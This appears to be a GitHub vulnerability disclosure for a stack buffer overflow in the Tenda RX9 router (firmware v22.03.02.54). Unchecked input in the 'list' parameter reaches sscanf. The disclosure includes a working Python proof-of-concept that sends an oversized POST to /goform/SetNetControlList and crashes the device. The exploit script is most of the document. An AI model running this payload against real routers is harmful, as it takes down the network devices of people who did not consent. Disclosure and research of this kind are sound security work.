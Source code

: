 # Tenda router sub_43CDE4 function stack overflow vulnerability

> vendor:Tenda
>
> product:RX9
>
> version:v1.0 v22.03.02.54
>
> type:Stack Overflow

## Vulnerability Description

Tenda RX9 v1.0 v22.03.02.54 were discovered to contain a stack overflow via the list parameter in the sub_43CDE4 function.

## Vulnerability Details

In the function, after V3 obtains the variable named "list", it is directly passed to the dangerous function sscanf without processing. This can be achieved by modifying the parameter length of the variable list in the post request, which may cause a stack buffer overflow. Denial of Service Purpose.

![image](https://github.com/cvdyfbwa/IoT-Tenda-Router/assets/150313831/9cd47d45-20fb-4cd1-a822-c339a400e0f5)


## POC

    import socket
    import os
    from pwn import *

    li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
    ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

    ip = '192.168.244.130'
    port = 80

    r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    li('[+] connecting')
    r.connect((ip, port))
    li('[+] connect finish')

    rn = b'\r\n'

    p1 = b'A' * 0x500

    p2 = b'list=' + p1

    p3 = b"POST /goform/SetNetControlList" + b" HTTP/1.1" + rn
    p3 += b"Host: 192.168.244.130" + rn
    p3 += b"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36" + rn
    p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
    p3 += b"Accept-Language: gzip, deflate" + rn
    p3 += b"Accept-Encoding: zh-CN,zh;q=0.9" + rn
    p3 += b"Cookie: password=cjq1qw" + rn
    p3 += b"Connection: close" + rn
    p3 += b"Upgrade-Insecure-Requests: 1" + rn
    p3 += (b"Content-Length: %d" % len(p2)) +rn
    p3 += b'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'+rn
    p3 += rn
    p3 += p2

    li('[+] sending payload')
    r.send(p3)

    response = r.recv(4096)
    response = response.decode()
    li(response)


   
